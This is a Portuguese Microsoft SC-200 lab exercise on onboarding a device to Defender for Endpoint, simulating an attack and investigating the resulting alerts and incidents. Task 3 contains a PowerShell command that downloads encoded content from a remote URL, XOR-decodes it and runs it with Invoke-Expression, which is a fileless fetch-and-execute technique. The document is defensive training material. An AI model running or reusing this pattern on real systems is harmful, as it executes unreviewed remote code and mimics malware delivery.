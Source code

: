 ```yaml
---
lab:
  title: 'Exercício 2: mitigar os ataques com o Microsoft Defender para Ponto de Extremidade'
  module: Learning Path 2 - Mitigate threats using Microsoft Defender for Endpoint
---
```


# Roteiro de aprendizagem 2, Laboratório 1, Exercício 2: mitigar os ataques com o Microsoft Defender para Ponto de Extremidade

## Cenário do laboratório

![Visão geral do laboratório.](../Media/SC-200-Lab_Diagrams_Mod2_L1_Ex2_10_19.png)

Você é um analista de operações de segurança que trabalha em uma empresa que está implantando o Microsoft Defender para Ponto de Extremidade. Seu gerente planeja integrar alguns dispositivos para fornecer informações sobre as alterações necessárias nos procedimentos de resposta da equipe de Operações de segurança (SecOps).

Para explorar os recursos de mitigação de ataque do Defender para Ponto de Extremidade, você verificará a integração bem-sucedida do dispositivo e investigará alertas e incidentes criados durante esse processo.

>**Observação:** uma **[simulação de laboratório interativo](https://mslabs.cloudguides.com/guides/SC-200%20Lab%20Simulation%20-%20Mitigate%20attacks%20with%20Microsoft%20Defender%20for%20Endpoint)** está disponível e permite que você clique neste laboratório em seu próprio ritmo. Você pode encontrar pequenas diferenças entre a simulação interativa e o laboratório hospedado, mas os principais conceitos e ideias que estão sendo demonstrados são os mesmos.

### Tarefa 1: verificar integração de dispositivos

Nesta tarefa, você confirmará se o dispositivo foi integrado com êxito e criará um alerta de teste.

1. Se você ainda não estiver no portal do Microsoft Defender XDR em seu navegador Microsoft Edge, acesse (https://security.microsoft.com) e faça logon como Administrador do seu locatário.

1. No menu à esquerda, na área **Ativos** , selecione **Dispositivos**. Aguarde até que WIN1 apareça na página Dispositivos antes de continuar. Caso contrário, talvez seja necessário repetir essa tarefa para ver os alertas que serão gerados posteriormente.

    >**Observação:** se você tiver concluído o processo de integração e não vir dispositivos na lista de dispositivos após uma hora, isso pode indicar um problema de integração ou de conectividade.

1. Selecione **Configurações** na barra de menus à esquerda e, na página Configurações, selecione **Pontos de extremidade**.

1. Selecione **Integração** na seção Gerenciamento de dispositivo e verifique se *"Windows 10 e 11"* está selecionado como sistema operacional. A mensagem *"Primeiro dispositivo integrado"* agora mostra *Concluído*.

1. Role para baixo e, na seção *"2. Executar um teste de detecção"*, copie o script do teste de detecção selecionando o botão **Copiar**.  

1. Na barra de pesquisa do Windows da máquina virtual WIN1, digite **CMD** e escolha **Executar como Administrador** no painel direito do aplicativo Prompt de comando.

1. Quando a janela "Controle de conta de usuário" for exibida, selecione **Sim** para permitir que o aplicativo seja executado. 

1. Cole o script clicando com o botão direito do mouse na janela **Administrador: Prompt de comando** e pressione **Enter** para executá-lo.

    >**Observação:** A janela é fechada automaticamente depois de executar o script com êxito e, após alguns minutos, os alertas são gerados no portal do Microsoft Defender XDR.

### Tarefa 2: Investigar alertas e incidentes

Nesta tarefa, você investigará os alertas e incidentes gerados pelo script de teste de detecção de integração na tarefa anterior.

1. No portal do Microsoft Defender XDR, selecione **Incidentes e alertas** na barra de menus à esquerda e, em seguida, selecione **Alertas**.

1. No painel **Alertas**, selecione o alerta chamado *Linha de comando suspeita do PowerShell* para carregar seus detalhes.

1. Examine a linha do tempo da *História do alerta* e examine as guias *Detalhes* e *Recomendações*.

    >**Observação:** Na guia *Detalhes* do alerta, você pode rolar para baixo até a seção *Detalhes do incidente* e selecionar o link *Incidente de execução em um ponto de extremidade* para abrir o incidente.

1. No portal do Microsoft Defender XDR, selecione **Incidentes e alertas** na barra de menus à esquerda e selecione **Incidentes**

1. Um novo incidente chamado *Incidente de execução em um ponto de extremidade* está no painel à direita. Selecione o nome do incidente para carregar seus detalhes.

1. Selecione o link **Gerenciar incidente** (com um ícone de lápis) e uma nova folha de janela será exibida.

1. Em **Marcas de incidente**, digite "Simulação" e selecione **Simulação (Criar)** para criar uma marca.

1. Selecione o botão de alternância **Atribuir a** e adicione sua conta de usuário (Eu) como proprietário do incidente.

1. Em **Classificação**, expanda o menu suspenso.

1. Em **Atividade esperada e informativa**, selecione **Teste de segurança**.

1. Adicione quaisquer comentários, se desejar, e selecione **Salvar** para atualizar o incidente e concluir.

1. Analise o conteúdo das guias *História de ataque, Alertas, Ativos, Investigações, Evidência e resposta* e *Resumo*. Os dispositivos e usuários se encontram na guia *Ativos*. Em um incidente real, a guia *História de ataque* exibe o *Grafo do incidente*. **Dica:** Algumas guias podem estar ocultas devido ao tamanho da exibição. Selecione a guia de reticências (...) para que elas apareçam.

### Tarefa 3 Simular um ataque

>**Aviso**: Esse ataque simulado é uma excelente fonte de aprendizado por meio da prática. Execute apenas os ataques nas instruções fornecidas para este laboratório ao usar o locatário do Azure fornecido pelo curso.  Você pode executar outros ataques simulados *após* este curso de treinamento ser concluído com esse locatário.

Nesta tarefa, você simulará um ataque à máquina virtual WIN1 e verificará se o ataque foi detectado e mitigado pelo Microsoft Defender para Ponto de Extremidade.

1. Na máquina virtual WIN1, *clique com o botão direito do mouse* o botão **Iniciar** e escolha **Windows PowerShell (Administrador)**.

1. Quando a janela "Controle de conta de usuário" for exibida, selecione **Sim** para permitir que o aplicativo seja executado.

1. Copie e cole o script de simulação a seguir na janela do PowerShell e pressione **Enter** para executá-lo:

    ```PowerShell
    [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
    ;$xor = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');
    $base64String = (Invoke-WebRequest -URI "https://wcdstaticfilesprdeus.blob.core.windows.net/wcdstaticfiles/MTP_Fileless_Recon.txt" -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
    $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
    $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
    ```

    >**Observação:** Se ocorrerem erros (em vermelho) durante a execução do script, abra o aplicativo Bloco de Notas e copie o script em um arquivo em branco. Certifique-se de que a *quebra automática de linha* esteja ativada no Bloco de Notas. Então, copie e execute cada linha do script separadamente no PowerShell. Além disso, um script do PowerShell (attacksim.ps1) foi fornecido nos arquivos baixados no início dos laboratórios. Para usar o script, no **Windows PowerShell (Administrador)** navegue até a pasta *\Users\Admin\Desktop* e digite *.\attacksim.ps1* e pressione **Enter** para executá-lo.

1. O script produzirá várias linhas de saída e uma mensagem informando que ele *Falhou ao resolver controladores de domínio no domínio*. Alguns segundos depois, o aplicativo *Bloco de Notas* será aberto. Um código de ataque simulado será injetado no Bloco de Notas. Mantenha a instância do Bloco de Notas gerada automaticamente aberta para experimentar o cenário completo. O código de ataque simulado tentará se comunicar com um endereço IP externo (simulando um servidor C2).

### Tarefa 4: Investigar o ataque simulado como um único incidente

1. No portal do Microsoft Defender XDR, selecione **Incidentes e alertas** na barra de menus à esquerda e selecione **Incidentes**

1. Um novo incidente chamado *Incidente de vários estágios envolvendo evasão de defesa e descoberta em um ponto de extremidade* está no painel direito. Selecione o nome do incidente para carregar seus detalhes.

1. Na guia *Histórico do ataque*, recolha os painéis de **Alertas** e **Detalhes do incidente** para exibir o **Grafo de incidentes** completo.

1. Passe o mouse e selecione os **Nós do Grafo de incidentes** para revisar as *entidades*.

1. Expanda novamente o painel de **Alertas** (lado esquerdo) e selecione o ícone **Executar histórico de ataque** *Executar*. Isso mostra o alerta da linha do tempo de ataque por alerta e preenche dinamicamente o *Grafo de incidentes*.

1. Analise o conteúdo das guias *História de ataque, Alertas, Ativos, Investigações, Evidência e resposta* e *Resumo*. Os dispositivos e usuários se encontram na guia *Ativos*. **Dica:** Algumas guias podem estar ocultas devido ao tamanho da exibição. Selecione a guia de reticências (...) para que elas apareçam.

1. Na guia **Evidência e resposta**, selecione **Endereços IP**, em seguida, selecione o *Endereço IP*. Na janela pop-up, revise os detalhes do endereço IP, role para baixo e selecione o botão **Abrir página de endereço IP**.

1. Revise o conteúdo da página *Endereço IP*das guias *Visão geral, incidentes e alertas e Observados em organizações*. Algumas guias podem não conter informações para o endereço IP.

## Você concluiu o laboratório
